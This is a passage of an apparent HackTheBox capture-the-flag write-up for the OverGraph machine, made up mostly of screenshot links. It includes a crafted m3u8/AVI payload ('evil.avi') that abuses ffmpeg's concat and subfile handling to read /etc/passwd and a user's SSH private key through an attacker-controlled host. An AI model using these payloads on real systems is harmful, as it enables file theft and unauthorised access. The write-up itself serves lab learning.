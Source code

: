 ### get rid of end of line character
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/OverGraph/screenshots/remove%20end%20of%20line%20xxd%20show.png)

### ffmpeg exploit read file successfull
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/OverGraph/screenshots/ffmpeg%20exploit%20read%20file.png)

### header.m3u8
````
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0  
#EXTINF:,
http://10.10.14.12?


`````

### evil.avi
````
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://10.10.14.12/header.m3u8|file:///etc/passwd
#EXT-X-ENDLIS

#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://10.10.14.12/header.m3u8|subfile,,start,1,end,10000,,:/home/user/.ssh/id_rsa
#EXT-X-ENDLIS


`````

## get SSH key one by one
### ssh1
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/OverGraph/screenshots/ssh%20get%201.png)

### ssh2
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/OverGraph/screenshots/ssh2.png)

### ssh3
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/OverGraph/screenshots/ssh%203.png)

### ssh4 etc etc etc --> id_rsa for user
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/OverGraph/screenshots/ssh%204.png)
